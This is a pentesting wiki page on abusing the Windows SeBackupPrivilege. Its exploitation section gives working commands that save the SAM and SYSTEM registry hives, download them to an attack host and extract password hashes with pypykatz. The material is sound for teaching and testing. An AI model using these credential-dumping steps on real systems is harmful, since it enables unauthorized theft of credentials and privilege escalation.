 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeBackupPrivilege

## Information

Allows file content retrieval, even if the security descriptor on the file might not grant such access. A caller with **SeBackupPrivilege** enabled obviates the need for any ACL-based security check.

Default setting: [Administrators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#administrators), [Backup Operators](../groups/backup-operators.md), and [Server Operators](../groups/server-operators.md).

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

### Windows 10

```powershell
# move to the c:\ directory
cd c:\
# create a Temp directory
mkdir Temp
# copy the sam and system files to Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
# move inside Temp
cd Temp
# download files on the attack host
download sam
download system
```

Dump `sam` from the attack host.

```bash
pypykatz registry --sam sam system
```

## Resources

{% tabs %}
{% tab title="First Tab" %}

{% endtab %}

{% tab title="SeBackupPrivilege" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}
{% endtab %}
{% endtabs %}
